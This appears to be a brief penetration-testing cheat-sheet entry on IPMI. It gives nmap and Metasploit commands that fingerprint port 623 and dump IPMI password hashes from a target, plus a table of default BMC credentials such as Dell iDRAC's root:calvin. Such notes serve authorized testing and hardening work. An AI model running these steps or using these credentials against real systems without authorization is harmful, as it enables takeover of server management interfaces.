 ## IPMI

```bash
nmap -sU --script ipmi-version -p 623 $TARGET

msf6 auxiliary(scanner/ipmi/ipmi_version) > set rhosts $TARGET
msf6 auxiliary(scanner/ipmi/ipmi_version) > run
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > set rhosts $TARGET
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > run
```

Default passwords :

| Product    | Username : Password                 |
| ---------- | ----------------------------------- |
| Dell iDRAC | root:calvin                         |
| HP iLO     | administrator (randomized password) |
